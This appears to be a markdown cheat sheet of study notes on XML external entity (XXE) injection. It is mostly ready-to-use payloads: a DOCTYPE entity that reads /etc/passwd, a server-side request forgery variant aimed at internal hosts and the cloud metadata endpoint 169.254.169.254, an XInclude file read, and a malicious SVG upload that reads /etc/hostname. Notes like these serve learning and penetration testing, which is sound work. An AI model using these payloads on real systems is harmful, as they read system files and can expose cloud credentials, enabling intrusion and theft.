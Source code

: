 # XML external entity injection
## File read
To exploit XXE we need to:
* Create or change DOCTYPE that defines external entity
* Edit a data which is returned back in app's response in order to use defined entity
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
Change it to:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
We define external entity `xxe` which contains /etc/passwd file and then pass this entity into application response  

## XXE to SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
We can try to access EC@ metadata endpoint with this attack (http://169.254.169.254/latest/meta-data/)

## Blind XXE
We can use XInclude when we don't contol entire XML document and can't create or modify DOCTYPE entity
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## XXE via file upload
We can upload malicious SVG or DOC file containing XXE.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
